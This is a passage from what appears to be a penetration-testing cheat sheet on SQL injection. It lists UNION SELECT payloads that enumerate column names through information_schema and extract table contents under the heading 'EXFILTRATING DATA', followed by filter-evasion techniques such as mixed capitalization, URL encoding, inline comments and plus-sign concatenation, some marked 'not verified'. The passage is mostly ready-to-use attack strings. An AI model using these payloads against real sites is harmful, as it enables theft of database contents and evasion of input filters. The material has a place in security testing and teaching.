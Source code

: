 ```
james' UNION SELECT 1,...,N-1,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='<TABLE>' --
```

##### 16.1.2.5.2	-

```
' UNION SELECT column_name, NULL, NULL,... FROM information_schema.columns WHERE table_name='<TABLE NAME>' --
```

#### 16.1.2.6	EXFILTRATING DATA

```
' UNION SELECT <COLUMN>, NULL, NULL, NULL, NULL,..., FROM <TABLE> WHERE id=1 --
```

- In order for a UNION to work, there must be an equal number of columns in each SELECT statement

- Each column must also have the same data type (using NULL can overcome this)

### 16.1.3	FILTER EVASION

#### 16.1.3.1	ABNORMAL CAPITALIZATION

```
UnION, SeLECT
```

#### 16.1.3.2	URL ENCODING

```
%55 equals 'U'
```

```
%55NION, %53ELECT
```

#### 16.1.3.3	MULTI-LINE COMMENTS

```
UN/**/ION, SE/**/LECT
```

#### 16.1.3.4	PLUS+ CONCATENATION

- '+' can be used to build an injection query without the use of quotes
	- not verified

```
UNION+SELECT+
```

#### 16.1.3.5	POUND# BYPASS

- Abuses inline comment system within MySQL
	- not verified
